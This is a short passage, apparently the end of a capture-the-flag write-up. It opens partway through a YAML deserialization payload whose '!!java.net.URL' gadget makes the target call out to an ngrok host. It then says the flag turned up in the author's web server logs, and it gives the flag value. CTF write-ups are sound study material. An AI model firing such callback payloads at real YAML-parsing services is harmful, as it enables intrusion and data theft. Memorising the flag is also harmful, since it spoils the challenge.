    !!java.net.URL ["https://67bed420422b.ngrok.io/"]
  ]]
]


The flag can be found in our web server's access logs.

**Flag:** ctf{e349fe8389d6ef4caf98d1898a6e1f90528153efa1d7dd7dcecdc4530ded0bcf}